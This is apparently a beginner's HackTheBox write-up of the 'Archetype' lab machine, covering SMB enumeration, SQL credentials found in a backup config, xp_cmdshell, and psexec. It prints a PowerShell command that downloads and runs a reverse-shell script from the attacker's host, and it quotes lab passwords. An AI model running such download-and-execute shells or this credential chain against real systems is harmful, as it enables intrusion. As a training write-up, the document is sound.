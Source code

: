 ## Archetype

Scanned this machine with nmap, identified 4 open ports:

```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

Started by connecting to the open SMB port (445, microsoft-ds (data services)) with smbclient. Enumerated the open shares on the system, which included:

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

ADMIN$ and C$ don't allow unauthenticated connections. backups and IPC$ allow unauthenticatied connections, however only backups allows an unauthenticated user to list files and directories. In backups, we found a file called prod.dtsConfig, which appeared to contain SQL credentials, which were:

u/n: ARCHETYPE\sql_svc
p/w: M3g4c0rp123

One of the open ports we found with nmap was a SQL instance, and we were able to connect to it using the credentials we found. Once connected, we were able to enable the legacy xp_command_shell feature, which allowed us to arbitrarily execute programs. Given our users's permissions level, we were not able to kill key processes run by accounts with higher privelages. We attempted to get a reverse shell using some well-known powershell scripts we got from Github, but we encountered issues with Windows Defender identifying our commands as malicious. We then attempted using the script contained in the HTB official writeup, which was permitted, and provided us with the shell we wanted. The script is shell.ps1 in this directory, we hosted it on our machine using `sudo python3 -m http.server 80` and executed it on the target machine like so:

```
xp_cmdshell powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.130/shell.ps1\");"
```

This allowed us to find the user flag on the system. It was a text file on the sql_svc user's Desktop. It also allowed us to look at the shell history for the machine, which provided us with the administrator user's password:

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

With the administrator user's password, we were able to use psexec to connect to the machine. We found the machine flag in C:\Users\Administrator\Desktop\root.txt, and read it with our psexec shell with `type`.  This completed this machine, which was my introduction to HackTheBox. On to the next one!
